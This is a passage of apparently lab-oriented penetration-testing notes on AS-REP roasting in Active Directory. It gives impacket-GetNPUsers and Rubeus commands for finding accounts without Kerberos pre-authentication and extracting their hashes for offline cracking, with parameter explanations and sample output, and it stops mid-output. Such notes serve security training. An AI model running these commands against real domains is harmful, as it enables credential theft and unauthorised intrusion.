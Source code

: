 **Account Configuration Check:**
- **Default State**: Kerberos pre-authentication enabled for all users
- **Manual Override**: Administrators can disable per-account
- **Common Causes**: Legacy application compatibility requirements
- **Security Impact**: Enables offline password attacks

### Linux-Based AS-REP Roasting with Impacket

**Tool: impacket-GetNPUsers**

**Basic Enumeration (Identify Vulnerable Users):**
```bash
# Enumerate accounts without pre-authentication required
impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/pete
```

**Full AS-REP Roasting Attack:**
```bash
# Request AS-REP hashes for vulnerable accounts
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```

**Command Parameters:**
- **-dc-ip**: Domain controller IP address
- **-request**: Request TGT for vulnerable accounts
- **-outputfile**: Save hashes in Hashcat-compatible format
- **corp.com/pete**: Domain/username for authentication

**Sample Attack Output:**
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
Name  MemberOf  PasswordLastSet             LastLogon                   UAC      
----  --------  --------------------------  --------------------------  --------
dave            2022-09-02 19:21:17.285464  2022-09-07 12:45:15.559299  0x410200
```

### Windows-Based AS-REP Roasting with Rubeus

**Tool: Rubeus.exe**

**Automated AS-REP Roasting:**
```powershell
# Navigate to tools directory
cd C:\Tools

# Execute AS-REP roasting attack
.\Rubeus.exe asreproast /nowrap
```

**Command Parameters:**
- **asreproast**: Specify AS-REP roasting attack mode
- **/nowrap**: Prevent line breaks in hash output (improves copy/paste)

**Sample Attack Output:**
```
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2

[*] Action: AS-REP roasting
[*] Target Domain          : corp.com
```